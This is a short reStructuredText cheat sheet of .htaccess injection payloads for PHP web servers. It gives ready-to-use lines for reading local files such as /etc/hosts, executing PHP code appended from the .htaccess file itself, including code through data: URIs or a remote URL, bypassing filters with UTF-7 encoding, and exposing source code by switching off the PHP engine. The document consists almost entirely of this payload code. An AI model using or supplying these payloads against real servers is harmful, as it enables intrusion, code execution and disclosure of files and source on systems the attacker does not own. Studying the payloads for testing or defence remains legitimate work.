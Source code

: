 htaccess injection payload
================================

local file inclusion
--------------------------------
::

    php_value auto_append_file /etc/hosts

code execution
--------------------------------
::

    php_value auto_append_file .htaccess
    #<?php phpinfo();

file inclusion by protocol
--------------------------------
::

    php_flag allow_url_include 1
    php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
    #php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B
    #php_value auto_append_file https://sektioneins.de/evil-code.txt

code execution with UTF-7
--------------------------------
::

    php_flag zend.multibyte 1
    php_value zend.script_encoding "UTF-7"
    php_value auto_append_file .htaccess
    #+ADw?php phpinfo()+ADs

Source code disclosure
--------------------------------
::

    php_flag engine 0
